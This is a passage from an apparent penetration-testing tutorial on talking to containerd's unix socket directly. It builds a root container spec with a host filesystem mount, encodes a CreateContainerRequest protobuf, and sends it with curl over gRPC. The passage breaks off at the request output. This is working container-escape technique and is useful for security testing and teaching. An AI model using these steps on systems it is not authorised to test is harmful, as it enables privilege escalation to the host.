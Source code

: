 The container specification, which will be insterted at the `CONTAINER_SPEC_HERE` marker, will be based on the example I have available [here](https://github.com/stephenbradshaw/pentesting_stuff/blob/master/containerd/basecontainerspec.json). This container spec will create a container running as the root user with a host filesystem mount, and has most of its fields set to usable values. We just need to modify the `args` and `env` items in the `process` section of the document. These will be filled in with data we take from the `docker.io/library/nginx:1.14.2` image definition. The values we want are from the `Env` and `Cmd` fields from the image definition.  

The fields in the base template we need to fill in are at the very start of the template, and are shown in the extract below:

```
{"ociVersion": "1.1.0", "process": {"user": {"uid": 0, "gid": 0, "additionalGids": [0]}, "args": [], "env": [], "cwd": "/", "capabilities": {"bounding":
```

We want to take the following values from the image definition to fill in the `args` and `env` fields.

```
"Env":["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","NGINX_VERSION=1.14.2-1~stretch","NJS_VERSION=1.14.2.0.2.6-1~stretch"],"Cmd":["nginx","-g","daemon off;"]
```

Once we have updated the `args` and the `env` fields, our completed container specification file `containerspec.json` will start like the following:

```
{"ociVersion": "1.1.0", "process": {"user": {"uid": 0, "gid": 0, "additionalGids": [0]}, "args": ["nginx", "-g", "daemon off;"], "env": ["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", "NGINX_VERSION=1.14.2-1~stretch", "NJS_VERSION=1.14.2.0.2.6-1~stretch"], "cwd": "/", "capabilities": {"bounding":
```

Lets now merge our container template `container_template.json` file together with our container spec `containerspec.json` together into a combined file `testcontainer.json`. This file will then be used to create a `CreateContainerRequest` message.

```
$ python -c "open('testcontainer.json', 'w').write(open('container_template.json').read().replace('\"CONTAINER_SPEC_HERE\"', open('containerspec.json').read().rstrip('\n')))"
```

Now create the binary `CreateContainerRequest` message using the JSON template we have created.

```
$ ./protobuf_parser.py -m containers_pb2.py -t CreateContainerRequest -i testcontainer.json -o createcontainerrequest.bin
Written to createcontainerrequest.bin
```

Now lets send the request:

```
$ sudo curl -s -v --http2-prior-knowledge --unix-socket /run/containerd/containerd.sock -X POST -H "content-type: application/grpc" -H "user-agent: grpc-go/1.59.0" -H "te: trailers" -H "containerd-namespace: k8s.io" http://localhost/containerd.services.containers.v1.Containers/Create --data-binary @createcontainerrequest.bin --output createcontainerresponse.bin
*   Trying /run/containerd/containerd.sock:0...
* Connected to localhost (/run/containerd/containerd.sock) port 80 (#0)
* Using HTTP2, server supports multiplexing
* Connection state changed (HTTP/2 confirmed)
* Copying HTTP/2 data in stream buffer to connection buffer after upgrade: len=0
* Using Stream ID: 1 (easy handle 0x556615a10a10)
> POST /containerd.services.containers.v1.Containers/Create HTTP/2
> Host: localhost
> accept: */*
> content-type: application/grpc
> user-agent: grpc-go/1.59.0
> te: trailers
> containerd-namespace: k8s.io
```